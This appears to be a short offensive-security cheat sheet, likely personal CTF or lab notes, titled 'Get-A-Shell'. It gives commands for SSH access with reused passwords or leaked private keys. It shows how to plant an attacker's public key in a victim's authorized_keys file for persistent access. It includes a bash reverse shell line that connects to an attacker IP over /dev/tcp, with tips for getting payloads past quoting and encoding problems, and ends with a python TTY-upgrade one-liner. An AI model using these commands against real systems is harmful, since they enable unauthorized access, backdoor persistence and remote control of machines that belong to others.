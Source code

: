 ```yaml
---
sort : 1
---
```


# Get-A-Shell 


## SSH 

### Password Reuse Misconfiguration OR Private Key Leakage : 

```bash
$ ssh Username@Host
    password : ******* 

$ ssh -i PrivateKey Username@Host
```


### Connecting Via SSH is Better ? (.ssh)

```bash
# On the victim machine

$ mkdir ".ssh"; cd .ssh ; touch authorized_keys
```

```bash
# On the attacker machine

$ cd /tmp; ssh-keygen  

# Generating public/private rsa key pair.
Enter file in which to save the key (/home/o54ma/.ssh/id_rsa): TmpKey # file name to save the key 
Enter passphrase (empty for no passphrase): 						  # no password 
Enter same passphrase again: 								          # no password 


$ cat TmpKey.pub | xclip -selection c                                 # copy the public key

```

```bash
# Back on the victim machine

$ echo "`CTRL+V`" >> authorized_keys
```

```bash
# Back on the attacker machine

ssh -i TmpKey Username@Host
```




### BruteForce Attack

not recommended ^^ 



## Reverse Shell 

[the best place to generate a reverse shell](https://www.revshells.com/)

```note
some times the shell doesn't work, why ?? 

* if it is a bash reverse shell, e.g. ```bash bash -i >& /dev/tcp/10.10.x.x/1234 0>&1``` , try precede it with `bash -c` 

* try URL encoding / double URL encoding

* quotations conflict, how to deal with it ?? 

    * embrace the whole payload with double qoutes, then escape the inside ones
    
    * there is also some tools that ask you to pass the payload as an argv, so make sure how they gonna receive it (inside a double or a single qoutes ??)
```


# Spawn a TTY shell 

python3 -c 'import pty; pty.spawn("/bin/bash")'